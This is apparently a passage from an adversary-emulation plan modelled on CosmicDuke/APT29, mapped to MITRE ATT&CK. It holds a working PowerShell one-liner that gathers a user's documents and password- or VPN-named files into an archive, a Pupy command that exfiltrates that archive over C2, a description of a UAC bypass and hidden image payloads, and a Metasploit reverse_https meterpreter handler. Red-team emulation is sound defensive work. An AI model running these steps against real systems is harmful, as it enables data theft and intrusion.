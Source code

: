 Paste the following PowerShell 1-liner into the Pupy terminal:

[pupy (PowerShell)] >

```powershell
$env:APPDATA;$files=ChildItem -Path $env:USERPROFILE\ -Include *.doc,*.xps,*.xls,*.ppt,*.pps,*.wps,*.wpd,*.ods,*.odt,*.lwp,*.jtd,*.pdf,*.zip,*.rar,*.docx,*.url,*.xlsx,*.pptx,*.ppsx,*.pst,*.ost,*psw*,*pass*,*login*,*admin*,*sifr*,*sifer*,*vpn,*.jpg,*.txt,*.lnk -Recurse -ErrorAction SilentlyContinue | Select -ExpandProperty FullName; Compress-Archive -LiteralPath $files -CompressionLevel Optimal -DestinationPath $env:APPDATA\Draft.Zip -Force
```

[pupy (PowerShell)] > `exit`

[pupy (CMD)] > `exit`

##### 2.B - Exfiltration Over C2 Channel ([T1041](https://attack.mitre.org/techniques/T1041/))

[pupy] > `download "C:\Users\<username>\AppData\Roaming\Draft.Zip" .`

#### Cited Intelligence

* Open Invitation Contributor: Kaspersky
* CosmicDuke’s information stealing functionality included stealing user files with file extensions that match a predefined list. <sup> [1](https://www.f-secure.com/documents/996508/1030745/dukes_whitepaper.pdf), [2](https://blog-assets.f-secure.com/wp-content/uploads/2019/10/15163405/CosmicDuke.pdf) </sup>

---

### Step 3 - Deploy Stealth Toolkit

The attacker now uploads a new payload ([T1105](https://attack.mitre.org/techniques/T1105/)) to the victim. The payload is a legitimately formed image file with a concealed PowerShell script ([T1027](https://attack.mitre.org/versions/v6/techniques/T1027/) / [T1027.003](https://attack.mitre.org/techniques/T1027/003/)). The attacker then elevates privileges via a user account control (UAC) bypass ([T1122](https://attack.mitre.org/versions/v6/techniques/T1122/) / [T1546.015](https://attack.mitre.org/techniques/T1546/015/), [T1088](https://attack.mitre.org/versions/v6/techniques/T1088/) / [T1548.002](https://attack.mitre.org/techniques/T1548/002/)), which executes the newly added payload. A new C2 connection is established over port 443 ([T1043](https://attack.mitre.org/versions/v6/techniques/T1043/) using the HTTPS protocol ([T1071](https://attack.mitre.org/versions/v6/techniques/T1071/) / [T1071.001](https://attack.mitre.org/techniques/T1071/001/), [T1032](https://attack.mitre.org/versions/v6/techniques/T1032/) / [T1573](https://attack.mitre.org/techniques/T1573/)). Finally, the attacker removes artifacts of the privilege escalation from the Registry ([T1112](https://attack.mitre.org/techniques/T1112/)).

#### Procedures

##### 3.A - Ingress Tool Transfer ([T1105](https://attack.mitre.org/techniques/T1105/))

Start Metasploit handler:

[msf] > `handler -H 0.0.0.0 -P 443 -p windows/x64/meterpreter/reverse_https`

